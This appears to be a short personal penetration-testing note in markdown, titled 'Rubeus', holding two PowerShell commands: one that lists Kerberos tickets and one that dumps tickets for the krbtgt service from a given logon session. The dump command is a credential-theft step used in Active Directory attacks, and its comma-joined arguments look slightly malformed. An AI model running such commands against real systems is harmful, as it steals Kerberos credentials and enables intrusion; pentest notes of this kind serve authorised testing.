 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Rubeus

~~~PowerShell
./rubeus.exe klist
~~~

~~~PowerShell
./rubeus.exe dump,/service:krbtgt,/luid:LUID(0x26b1ba),/nowrap
~~~

